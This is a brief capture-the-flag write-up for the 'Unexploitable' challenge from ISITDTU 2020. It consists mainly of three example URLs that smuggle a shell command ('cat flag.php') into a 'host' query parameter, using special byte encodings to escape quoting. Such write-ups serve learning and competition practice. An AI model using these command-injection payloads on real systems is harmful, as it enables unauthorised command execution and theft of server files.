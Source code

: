 # Solution for Unexploitable (ISITDTU 2020)

Just use special character to escapse quote
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%82;%20cat%20flag.php;%20%82
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%91;%20cat%20flag.php;%20%91
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%92;%20cat%20flag.php;%20%92
---

...

![image](./show.png)